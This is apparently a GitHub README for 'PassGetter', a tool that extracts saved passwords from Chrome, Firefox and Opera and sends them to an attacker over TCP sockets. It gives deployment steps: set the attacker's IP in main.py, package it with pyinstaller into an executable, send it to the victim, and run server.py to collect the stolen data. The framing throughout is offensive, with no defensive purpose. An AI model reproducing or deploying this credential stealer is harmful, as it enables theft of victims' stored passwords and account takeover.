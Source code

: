 # PassGetter
Extract saved passwords of the browsers (i.e Chrome, Firefox, Opera) in the form of .db files and transfer em to the attacker via sockets

## How it works
[!alt text](https://media.discordapp.net/attachments/733792205663371286/755806305016610842/image.png)

Basically when u send the file to the victim's computer it processes the system information (OS name) and then it searches for the path to the saved credentials of the browser (look into the code for more info) after that it extracts the data in a .db format and sends it to the attacker via TCP.

## How to make it work

Put the ip address to your machine in _main.py_  on line 82
```
host = "<Your_IP>"
```
Convert the _main.py_ to _.exe_ or a linux binary executable using pyinstaller
```
pyinstaller --path <Path to Python>\Python\Lib\site-packages\pywin32_system32 --onefile main.py
``` 
Then send it to the victim and run the _server.py_ inside the sockets folder
```
python3 server.py
```
and wait for the magic to happen

## Requirements

Make sure to install the requirements before converting it to _.exe_ or else the conversion will fail
```
pip install -r requirements.txt
```

## Credits

[Firefox Pass Extraction - unode] (https://github.com/unode/firefox_decrypt/blob/master/firefox_decrypt.py)
[Chrome Pass Extraction - Stackoverflow] (https://stackoverflow.com/questions/61099492/chrome-80-password-file-decryption-in-python)

